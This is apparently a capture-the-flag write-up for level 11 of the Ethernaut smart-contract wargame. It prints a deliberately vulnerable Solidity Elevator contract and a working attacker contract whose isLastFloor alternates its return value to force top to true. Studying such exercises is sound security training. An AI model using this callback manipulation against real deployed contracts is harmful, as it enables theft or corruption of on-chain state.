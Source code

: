 # Level 11: Building

This is the level 11 of [Ethernaut](https://ethernaut.openzeppelin.com/) game.

## Pre-requisites
- Solidity [interfaces](https://docs.soliditylang.org/en/v0.8.10/contracts.html#interfaces)

## Hack

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

`player` has to set `top` to `true` i.e. have to reach top of the building.

But `Elevator` won't let you.... if you comply by the `Building` so religiously. So let's not get so disciplined ;)

Alright so, `goTo` calls the contract at `msg.sender` address that implements `Building` interface to determined if `_floor` is last floor.

Okay, then we'll create a contract `MyBuilding` that inherits `Building` and therefore implements `isLastFloor`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}

interface IElevator {
    function goTo(uint _floor) external;
}

contract MyBuilding is Building {
    bool public last = true;

    function isLastFloor(uint _n) override external returns (bool) {
        last = !last;
        return last;
    }

    function goToTop(address _elevatorAddr) public {
        IElevator(_elevatorAddr).goTo(1);
    }
}
```

But...although we did implement `isLastFloor` we won't use `_floor` param anywhere to determine if it's last floor. We are not obliged to anyway ;)

We just alternate between returning `true` and `false`, so that 1st call will return `false` and 2nd call returns `true` and so on.

Simply call `goToTop` of `MyBuilding`, with `contract.address` of instance. That'll trigger `Elevator` to call `isLastFloor` of our contract - `MyBuilding`. And since second call sets `top` variable, it is set to `true`.

Verify in console:
```javascript
await contract.top()

// Output: true
```

Started from the bottom now we here (`top`) !

_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/the_nvn)_ 🙏

